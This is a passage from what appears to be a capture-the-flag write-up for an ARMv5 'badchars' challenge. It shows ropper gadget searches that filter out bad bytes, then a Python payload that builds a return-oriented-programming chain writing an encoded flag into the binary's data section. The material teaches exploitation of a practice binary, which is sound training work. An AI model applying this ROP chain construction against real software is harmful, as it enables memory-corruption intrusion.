 ```
0x0001067c: pop {r4, r5, r6, r7, r8, sb, sl, pc}; andeq r0, r1, r8, asr #17; andeq r0, r1, r0, asr #17; bx lr;
0x00010614: pop {r5, r6, pc};
0x000105a0: popne {r4, pc}; bl #0x52c; mov r3, #1; strb r3, [r4]; pop {r4, pc};

```



Notice anything strange? The **pop {r3, pc};** gadget is at **0x00010478** but this address contains **0x78** which is one of our bad characters (**7867612e**), therefore we cannot use this gadget. 



Luckily as stated in the challenge page, ropper has a bad characters option to help us here:



```
ropper --file=badchars_armv5 --search "pop" -b 7867612e
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] filtering badbytes... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop


[INFO] File: badchars_armv5
0x000105d0: pop {fp, pc};
0x000105fc: pop {r0, pc};
0x00010690: pop {r3, pc};
0x000105b0: pop {r4, pc};
0x0001067c: pop {r4, r5, r6, r7, r8, sb, sl, pc};
0x0001067c: pop {r4, r5, r6, r7, r8, sb, sl, pc}; andeq r0, r1, r8, asr #17; andeq r0, r1, r0, asr #17; bx lr;
0x00010614: pop {r5, r6, pc};
0x000105a0: popne {r4, pc}; bl #0x52c; mov r3, #1; strb r3, [r4]; pop {r4, pc};

```



There we go!  **0x00010690: pop {r3, pc};** is a much better gadget and won't cause us any problems

Remember that we're dealing with 4 byte registers so to store our 8 byte-encoded flag we need to call the storage gadget twice:



```python
encoded_flag = b'ek`f-sws'

# write first 4 bytes of encoded flag
payload = b"A" * pc_offset
payload += pop_r3_gadget
payload += encoded_flag[:4]
payload += pop_r4_gadget
payload += p32(datasection_addr)
payload += storage_gadget
payload += p32(datasection_addr)# r5
payload += p32(0x1) # r6

# write remaining 4 bytes of the encoded flag
payload += pop_r3_gadget
payload += encoded_flag[4:]
payload += pop_r4_gadget
payload += p32(datasection_addr + 4)
payload += storage_gadget
payload += p32(datasection_addr)# r5
payload += p32(0x1) # r6
```